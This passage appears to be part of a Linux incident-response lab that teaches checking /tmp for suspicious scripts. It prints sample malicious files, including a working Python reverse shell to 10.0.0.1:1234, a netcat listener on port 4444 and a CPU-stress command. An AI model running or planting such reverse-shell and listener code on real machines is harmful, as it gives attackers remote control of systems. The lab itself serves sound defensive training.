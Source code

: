 Because files in `/tmp` are deleted between reboots, hackers often save malicious files to this directory, knowing that they'll be available for use while they're exploiting the machine, but automatically deleted _by the target itself_ at reboot.

- This is the reason it's so important to check `/tmp` for suspicious files—especially scripts and executables.

Run: `ls /tmp`

Your output should look similar to:

```bash       
ssh-nz0wF8pAAwNZ
systemd-private-edef814d301f47a5a3e4a1319eb42b9e-haveged.service-CFnP1U
systemd-private-edef814d301f47a5a3e4a1319eb42b9e-rtkit-daemon.service-qxhxSo
qrexec-rpc-stderr-return.2493  
user
a9xk.sh
rev_shell.sh
listen.sh
59581DF4-5622-42F9-8240-788CEE8DC0DF_IN
Temp-84un9sh49-4483-2836-85jf-3ydn00847
```

This directory contains files with names like `59581DF4-5622-42F9-8240-788CEE8DC0DF_IN`.

- These filenames are not very useful to humans. This is because they are temp files saved by programs for their own use.

- There are multiple files ending in `sh`, which indicates a script file.

- This is highly suspect, as scripts are in no way "temporary" files.

- In addition, while it's not clear what these files do, they are clearly not named like a "normal" temp files.


Run `cat /tmp/a9xk.sh`

Run `cat /tmp/rev_shell.sh`

Run `cat listen.sh`

Output should read:

```bash
$ cat /tmp/a9xk.sh
#!/bin/bash
sudo stress --cpu  8 --vm 1 --io 3 --vm-bytes 256 2> /dev/null

$ cat /rev_shell.sh
#!/bin/bash
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'i

$ cat /tmp/listen.sh
#/bin/bash
nc -lvp 4444 > /tmp/rev_shell.sh &
renice -n 1 $(pidof nc)
```
